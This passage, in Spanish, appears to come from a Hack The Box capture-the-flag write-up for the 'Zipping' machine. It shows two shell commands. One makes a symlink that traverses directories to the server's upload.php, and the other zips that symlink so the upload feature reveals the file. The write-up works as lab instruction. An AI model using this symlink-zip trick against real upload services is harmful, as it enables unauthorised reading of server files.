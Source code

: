 Probemos leer ahora el archivo `upload.php`.

```bash
ln -s ../../../../../../../var/www/html/upload.php file.pdf
zip --symlinks file.zip file.pdf
```

![Zipping](/assets/img/htb/zipping/zipping-18.png)
_Curl_

Logramos poder leer el archivo que se encarga de realizar la subida de ficheros, pero no encontramos nada interesante.

![Zipping](/assets/img/htb/zipping/zipping-19.png){: width="700" height="400" }
_Curl_
